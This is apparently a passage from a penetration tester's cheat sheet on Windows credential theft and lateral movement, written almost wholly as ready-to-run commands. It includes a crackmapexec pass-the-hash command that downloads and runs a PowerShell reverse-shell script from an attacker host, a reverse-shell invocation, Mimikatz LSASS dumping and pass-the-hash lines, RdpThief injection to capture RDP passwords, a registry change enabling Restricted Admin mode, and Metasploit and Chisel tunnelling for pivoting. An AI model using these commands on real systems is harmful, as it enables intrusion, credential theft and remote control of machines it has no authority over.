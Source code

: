                 //add to bottom of Invoke-PowerShellTcp.ps1:  Invoke-PowerShellTcp -Reverse -IPAddress 172.16.1.30 -Port 443
                crackmapexec smb 172.16.1.200 -u administrator -H 3542d79d5d17bc9d3014d4d56b5e3060 --local-auth -X "iex(new-object net.webclient).downloadstring('http://172.16.1.30/Invoke-PowerShellTcp443.ps1')"
        //MSF - SMB (w/ password):
            use auxiliary/scanner/smb/smb_login
            set RHOSTS <DC_IP>
            set SMBDomain megacorp.local
            set SMBPass Passw0rd!
            set USER_FILE /home/snovvcrash/ws/enum/all-users.txt
            set VERBOSE False
            run

#### RDP Credential Monitor

    **use if a user is initiating outbound RDP connections to another box

    //Stealing Clear Text Credentials from RDP:
        //using RdpThief.dll and my RdpThiefInjector.exe - running loop that constantly checks for mstsc.exe process to inject into
            //RdpThief.dll must be on target (C:\Windows\Tasks\RdpThief.dll)
        //start RdpThiefInjector.exe on the machine you want to monitor connections from - whereever users are initiating connections out from
        //results:  type C:\Users\dave\AppData\Local\Temp\6\data.bin
        //Other method - svchost dump:  https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/credential-harvesting/from-memory/svchost-exe

### Lateral Movement
- Service SPN Access Methods:  HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell or schtasks), MSSQLSvc (DB admin rights), HOST&RPCSS (WMI), CIFS&HTTP (PS Remoting)
#### Remote Desktop Protocol (RDP)

        //existing user is disconnected by default - unless you use the /admin flag
        //NTLM hash stays in memory until logout (not exit!) - unless using restricted admin mode (/restrictedadmin)
    //Dumping Creds w/ Mimikatz:
        privilege::debug; !+; !processprotect /process:lsass.exe /remove; sekurlsa::logonpasswords
    //PTH (if Restricted Admin mode is enabled):
        //Mimikatz:  privilege::debug; sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
        //xfreerdp:   xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.120.6 /cert-ignore
    //Enabling Restricted Admin Mode via PS Remoting and PTH:
        sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
        Enter-PSSession -Computer appsrv01
        New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
        //Or:  cme smb 10.0.0.200 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
    //Reverse RDP Proxying w/ Metasploit (Socks):
        //useful if NAT is enabled
        use multi/manage/autoroute; set session 1; exploit
        use auxiliary/server/socks_proxy; set srvhost 127.0.0.1; exploit -j         //to stop: jobs; kill 0
        sudo bash -c 'echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf'
        proxychains rdesktop 192.168.120.10
    //Reverse RDP Proxying w/ Chisel
        //Build .exe:  env GOOS=windows GOARCH=amd64 go build -o chisel.exe -ldflags "-s -w"
        //Start server on kali
            ./chisel server -p 8080 --reverse
        //Transfer and run Client on Windows:
            upload /home/kali/data/chisel/chisel.exe c:\\Users\\Administrator\\Desktop
            //Socks Method:  chisel.exe client 192.168.45.215:8080 R:socks
            //Local tunnel Method:  chisel client 192.168.45.215:8080 R:33890:10.10.10.240:3389
    //RDP as a Console:
        //no reverse tunnel necessary - execute commands directly from one target to next